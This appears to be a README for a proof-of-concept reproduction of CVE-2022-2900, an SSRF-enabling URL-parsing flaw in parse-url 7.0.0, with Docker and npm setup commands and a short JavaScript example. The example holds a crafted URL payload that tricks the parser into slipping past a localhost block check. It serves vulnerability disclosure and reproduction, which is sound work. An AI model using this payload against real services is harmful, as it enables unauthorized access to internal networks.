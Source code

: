 ### CVE-2022-2900

### PoC Links 
[Huntr.dev](https://huntr.dev/bounties/1b4c972a-abc8-41eb-a2e1-696db746b5fd/)

### Docker Build and Run Command
```shell
docker build -t cve-2022-2900-poc . 
docker run -itd --name CVE-2022-2900-POC cve-2022-2900-poc 
docker exec -it CVE-2022-2900-POC /bin/bash
```

### PoC Reproduce Command
```shell
cd /poc
# 安装存在漏洞的依赖
sudo npm init -y
sudo npm install --save parse-url@7.0.0
# 运行poc.js
node poc.js
```

### Description
可以观察到url解析错误，解析出来的属性错误，可能会触发SSRF漏洞等，例如：
```javascript
import parseUrl from "parse-url";
import fetch from 'node-fetch';

var parsed = parseUrl("http://nnnn@localhost:808:/?id=xss")
// SSRF，会访问到 http://nnnn@localhost/808  (跳转)-->  http://localhost/808
if (parsed.resource == "localhost") {
    console.log("internal network access is blocked")
} else {
    const response = await fetch('http://' + parsed.resource + parsed.pathname);
    console.log(response)
}
```



